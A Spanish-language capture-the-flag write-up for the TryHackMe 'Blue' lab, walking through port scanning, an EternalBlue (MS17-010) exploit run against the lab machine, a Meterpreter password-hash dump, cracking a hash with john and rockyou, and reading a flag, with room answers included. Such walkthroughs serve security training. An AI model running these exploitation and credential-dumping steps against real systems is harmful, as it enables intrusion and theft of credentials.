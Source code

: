 ```yaml
---
title: "tryhackme: blue"
share: false
excerpt: "Implemente y piratee una máquina con Windows, aprovechando los problemas comunes de mala configuración."
share: false
header:
  teaser:  /assets/images/blue/logo.jpeg
  teaser_home_page: true
categories:
  - tryhackme
tags:
  - Ethernal blue - ms08-067
  - Windows
---
```


### Iniciamos conprobando que la maquina este encendida 

```bash
❯ ping -c 1 10.10.31.159
PING 10.10.31.159 (10.10.31.159) 56(84) bytes of data.
64 bytes from 10.10.31.159: icmp_seq=1 ttl=127 time=187 ms

--- 10.10.31.159 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 186.669/186.669/186.669/0.000 ms
❯ settarget 10.10.31.159
```

Comprobamos que _OS_ corre la maquina

```bash
❯ wichSystem.py 10.10.31.159

10.10.31.159 (ttl -> 127): Windows
```

### ahora si a realizar un primer escaneo de puertos

```bash
sudo nmap --open --min-rate 5000 -p- -sS -Pn -n 10.10.31.159 -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-11 07:47 -05
Stats: 0:00:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 54.84% done; ETC: 07:48 (0:00:36 remaining)
Stats: 0:01:25 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 07:48 (0:00:00 remaining)
Nmap scan report for 10.10.31.159
Host is up (1.2s latency).
Not shown: 52538 filtered tcp ports (no-response), 12992 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49153/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 85.45 seconds
```

> How many ports are open with a port number under 1000?

> 3

vemos el resultado del escaneo anterior con la utilidad _extractPors_ y esta nos copia los puertos en la clipboard

```bash
> extractPorts allPorts
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.31.159
   5   │     [*] Open ports: 135,139,445,3389,49153
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
```
Con los puertos copiados en la clipboard procedemos a realizar un escaneo con _script_ basicos de vulnerabildades de _nmap_

> What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

> ms17-010

ahora ya sabemos que es vulnerable a _ethernalblue_, buscamos un exploit manual en _google_

![exploit manual](/assets/images/blue/manual.png)

procedemos a instalar la utilidad

- comandos 

```bash
> pip install -r requirements.txt
```

el _script_ tiene una utilidad que nos confirma que la maquina es vulnerable a _ethernalblue_

```bas
❯ python3 eternal_checker.py 10.10.125.134
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
```

Como vemos, la maquina no esta parchada contra esta vulnerabilidad, procedemos a explotarla
nos novemos al directorio _shellcode_ como indicaa la "guia" del _scritp_

![configuracion scrit](/assets/images/blue/shell_code.png)

- ejecutamos con la configuración anterior
- toca ejecutar el comando varias veces puesto que, se bloquea la maquina y/o problemas de _eternalblue_ (algo común)

```bash
❯ python eternalblue_exploit7.py 10.10.125.134 shellcode/sc_all.bin
shellcode size: 2205
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

en otra consola ponemos nuestra ejecutamos el comando *listener_prep.sh*

# hashdump

```bash
meterpreter > run post/windows/gather/hashdump

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 55bd17830e678f18a3110daf2c17d4c7...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

Jon:"Nah boi, I ain't sharing nutting with you"

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

ahora vamos a intentar crackear cada contraseña con el diccionario *rockyou.txt*

```bash
❯ john /home/blanco/Desktop/thm/blue/content/users.txt --wordlist=/home/blanco/Desktop/thm/rockyou.txt --format=NT

alqfna22	(jon)
```

ahora a buscar la flag, para ello debemos regresar a la raiz del sistema y leer la primer bandera

```bash
meterpreter > pwd
C:\Windows
meterpreter > cd ..
meterpreter > pwd
C:\
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   0      dir   2009-07-13 22:18:56 -0500  $Recycle.Bin
40777/rwxrwxrwx   0      dir   2009-07-14 00:08:56 -0500  Documents and Settings
40777/rwxrwxrwx   0      dir   2009-07-13 22:20:08 -0500  PerfLogs
40555/r-xr-xr-x   4096   dir   2009-07-13 22:20:08 -0500  Program Files
40555/r-xr-xr-x   4096   dir   2009-07-13 22:20:08 -0500  Program Files (x86)
40777/rwxrwxrwx   4096   dir   2009-07-13 22:20:08 -0500  ProgramData
40777/rwxrwxrwx   0      dir   2018-12-12 22:13:22 -0500  Recovery
40777/rwxrwxrwx   4096   dir   2018-12-12 18:01:17 -0500  System Volume Information
40555/r-xr-xr-x   4096   dir   2009-07-13 22:20:08 -0500  Users
40777/rwxrwxrwx   16384  dir   2009-07-13 22:20:08 -0500  Windows
100666/rw-rw-rw-  24     fil   2018-12-12 22:47:39 -0500  flag1.txt
0000/---------    0      fif   1969-12-31 19:00:00 -0500  hiberfil.sys
0000/---------    0      fif   1969-12-31 19:00:00 -0500  pagefile.sys

meterpreter > cat flag1.txt
xxxx{xxcxsx_txe_mxcxixx}
```

para encontrar la 2da flag y no hacerlo manualmente usamos el comando

> dir flag /s /p

